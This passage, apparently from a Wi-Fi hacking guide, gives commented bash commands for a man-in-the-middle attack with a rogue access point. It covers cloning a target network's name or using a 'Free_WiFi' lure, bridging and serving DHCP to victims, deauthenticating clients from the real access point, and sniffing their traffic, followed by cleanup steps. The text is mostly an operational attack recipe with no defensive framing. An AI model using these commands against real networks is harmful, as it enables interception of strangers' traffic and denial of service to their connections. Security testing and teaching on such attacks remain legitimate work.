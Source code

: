 
### Man-in-the-Middle (MitM) Attack using Rogue AP (`airbase-ng`)

```bash
# 1. Start monitor mode on your interface (e.g., wlan0mon).
#
# 2. Create a soft AP with the same ESSID as the target network (or a tempting one like "Free_WiFi"):
#    sudo airbase-ng -e "Target_ESSID" -c <channel> wlan0mon
#    This creates a new tap interface (e.g., at0).
#
# 3. Configure the host system to bridge the tap interface (at0) with your internet-connected interface (e.g., eth0)
#    and provide DHCP services to clients connecting to your rogue AP. This is complex host-side setup.
#    Example (conceptual, requires bridge-utils, dhcp server):
#    sudo ifconfig at0 up
#    sudo brctl addbr mitm_bridge
#    sudo brctl addif mitm_bridge eth0 # Your internet-facing interface
#    sudo brctl addif mitm_bridge at0
#    sudo ifconfig eth0 0.0.0.0 up
#    sudo ifconfig mitm_bridge <your_lan_ip_for_bridge> netmask <netmask> up
#    # Configure DHCP server (e.g., isc-dhcp-server) to listen on mitm_bridge.
#
# 4. (Optional) Deauthenticate clients from the legitimate AP to encourage them to connect to yours:
#    sudo aireplay-ng -0 0 -a <BSSID_of_legitimate_AP> wlan0mon # Use different wireless card if possible, or stop airbase-ng temporarily.
#
# 5. Sniff traffic on the bridge interface (mitm_bridge) or at0 using Wireshark or tcpdump.
#    sudo wireshark -i mitm_bridge
```


---

## Step 7: Clean Up

### Stop Monitor Mode
```bash
# Stop monitor mode on your interface (e.g., wlan0mon)
sudo airmon-ng stop wlan0mon

# Verify interface is back in managed mode
# iwconfig wlan0 # (Or your original interface name)
```

### Restore Network Services

```bash
# sudo systemctl restart NetworkManager.service
# sudo systemctl restart wpa_supplicant.service
# (Commands depend on your Linux distribution and network management tools)
```

---


